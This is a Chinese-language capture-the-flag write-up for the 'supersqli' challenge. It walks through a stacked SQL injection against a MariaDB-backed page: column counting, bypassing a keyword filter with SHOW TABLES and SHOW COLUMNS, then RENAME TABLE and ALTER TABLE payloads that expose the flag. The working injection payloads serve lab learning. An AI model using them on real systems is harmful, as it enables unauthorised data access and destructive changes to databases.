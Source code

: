 # supersqli

题目描述：随便注

遇到 `SQL` 题我是有一点点恶感和害怕的, 感觉每题的注射方式都不一样!

尝试一些简单的值: `1'` 返回错误:

`error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1`

从 `MariaDB` 我们可以知道这题是 `MYSQL` 注入.

检查 `table` 有 2 `columns`:

```
?inject=1'+order+by+1--+
?inject=1'+order+by+2--+
?inject=1'+order+by+3--+ 返回错误
```

本题也 `filter` 一些字:

```
?inject=1'+union+select+1,2--+
返回: return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

试了所有我知道的方法, 还是不能绕过这个 `filter`. 太绝望了, 决定找一下 write up. 原来在 `MYSQL` 中有命令 `show` 可以用.

显示 `table`:

`?inject=-1';show+tables--+-`

`-1` 是用来清除页面, 因为 `inject=-1` 没有显示任何数据. 我们得到 `2` 个 `table` 是 `1919810931114514` 和 `words`. 以为到这应该快要成功. 显示 `table` 的 `columns`:

`?inject=-1';show+columns+from+`1919810931114514`--+-`

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

`?inject=-1';show+columns+from+words--+-`

```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

又是一次绝望, 看了 write up 后, 原来还有这样一种思路: 因为当开始我门读取 `inject=1`, `inject=2` 只读到两个 `inject` 的值, 所以页面显示我们可以读取的数据属于 `words`, 但 `flag` 又在 `1919810931114514` 里. 那么, 可以把这两个 `table` 的内容相换!!!

```
?inject=-1'%3bRENAME+TABLE+`words`+TO+`words1`%3bRENAME+TABLE+`1919810931114514`+TO+`words`%3bALTER+TABLE+`words`+CHANGE+`flag`+`id`+VARCHAR(100)+CHARACTER+SET+utf8+COLLATE+utf8_general_ci+NOT+NULL%3b--+-
```

现在我们已经可以读取 `words` 的内容和那到 `flag`:

`?inject=1'+or+1=1--+-`
